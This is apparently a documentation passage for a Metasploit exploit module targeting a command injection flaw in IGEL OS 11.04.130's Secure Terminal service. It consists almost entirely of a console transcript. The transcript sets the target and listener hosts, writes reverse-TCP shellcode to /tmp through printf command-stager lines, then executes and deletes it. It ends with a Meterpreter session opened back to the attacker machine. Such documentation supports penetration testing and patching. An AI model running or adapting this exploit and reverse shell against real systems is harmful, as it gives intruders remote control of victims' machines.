 ## Scenarios

### IGEL OS 11.04.130

Targeting the Secure Terminal service (30022/tcp):

```
msf6 > use exploit/linux/misc/igel_command_injection
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/misc/igel_command_injection) > set rhost 192.168.37.133
rhost => 192.168.37.133
msf6 exploit(linux/misc/igel_command_injection) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(linux/misc/igel_command_injection) > set verbose true
verbose => true
msf6 exploit(linux/misc/igel_command_injection) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] 192.168.37.133:30022 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.37.133:30022 - IGEL OS Version: 11.04.130.01
[+] 192.168.37.133:30022 - The target appears to be vulnerable.
[*] 192.168.37.133:30022 - Generated command stager: ["printf '\\177\\105\\114\\106\\1\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\3\\0\\1\\0\\0\\0\\124\\200\\4\\10\\64\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\64\\0\\40\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0'>>/tmp/oNwdw", "printf '\\0\\0\\0\\0\\0\\200\\4\\10\\0\\200\\4\\10\\355\\0\\0\\0\\206\\1\\0\\0\\7\\0\\0\\0\\0\\20\\0\\0\\152\\2\\130\\315\\200\\205\\300\\164\\6\\61\\300\\260\\1\\315\\200\\152\\2'>>/tmp/oNwdw", "printf '\\130\\315\\200\\205\\300\\164\\6\\61\\300\\260\\1\\315\\200\\152\\12\\136\\61\\333\\367\\343\\123\\103\\123\\152\\2\\260\\146\\211\\341\\315\\200\\227\\133\\150'>>/tmp/oNwdw", "printf '\\300\\250\\45\\1\\150\\2\\0\\21\\134\\211\\341\\152\\146\\130\\120\\121\\127\\211\\341\\103\\315\\200\\205\\300\\171\\31\\116\\164\\75\\150\\242\\0\\0\\0\\130\\152'>>/tmp/oNwdw", "printf '\\0\\152\\5\\211\\343\\61\\311\\315\\200\\205\\300\\171\\275\\353\\47\\262\\7\\271\\0\\20\\0\\0\\211\\343\\301\\353\\14\\301\\343\\14\\260\\175\\315\\200\\205\\300'>>/tmp/oNwdw", "printf '\\170\\20\\133\\211\\341\\231\\262\\152\\260\\3\\315\\200\\205\\300\\170\\2\\377\\341\\270\\1\\0\\0\\0\\273\\1\\0\\0\\0\\315\\200'>>/tmp/oNwdw", "chmod +x /tmp/oNwdw", "/tmp/oNwdw", "rm -f /tmp/oNwdw"]
[*] 192.168.37.133:30022 - executing: printf '\177\105\114\106\1\1\1\0\0\0\0\0\0\0\0\0\2\0\3\0\1\0\0\0\124\200\4\10\64\0\0\0\0\0\0\0\0\0\0\0\64\0\40\0\1\0\0\0\0\0\0\0\1\0\0\0'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  16.45% done (149/906 bytes)
[*] 192.168.37.133:30022 - executing: printf '\0\0\0\0\0\200\4\10\0\200\4\10\355\0\0\0\206\1\0\0\7\0\0\0\0\20\0\0\152\2\130\315\200\205\300\164\6\61\300\260\1\315\200\152\2'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  32.67% done (296/906 bytes)
[*] 192.168.37.133:30022 - executing: printf '\130\315\200\205\300\164\6\61\300\260\1\315\200\152\12\136\61\333\367\343\123\103\123\152\2\260\146\211\341\315\200\227\133\150'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  49.01% done (444/906 bytes)
[*] 192.168.37.133:30022 - executing: printf '\300\250\45\1\150\2\0\21\134\211\341\152\146\130\120\121\127\211\341\103\315\200\205\300\171\31\116\164\75\150\242\0\0\0\130\152'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  65.45% done (593/906 bytes)
[*] 192.168.37.133:30022 - executing: printf '\0\152\5\211\343\61\311\315\200\205\300\171\275\353\47\262\7\271\0\20\0\0\211\343\301\353\14\301\343\14\260\175\315\200\205\300'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  81.79% done (741/906 bytes)
[*] 192.168.37.133:30022 - executing: printf '\170\20\133\211\341\231\262\152\260\3\315\200\205\300\170\2\377\341\270\1\0\0\0\273\1\0\0\0\315\200'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  95.03% done (861/906 bytes)
[*] 192.168.37.133:30022 - executing: chmod +x /tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  97.13% done (880/906 bytes)
[*] 192.168.37.133:30022 - executing: /tmp/oNwdw
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (980808 bytes) to 192.168.37.133
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.133:50500) at 2021-04-30 15:33:12 -0500
[*] 192.168.37.133:30022 - Command Stager progress -  98.23% done (890/906 bytes)
[*] 192.168.37.133:30022 - executing: rm -f /tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress - 100.00% done (906/906 bytes)

```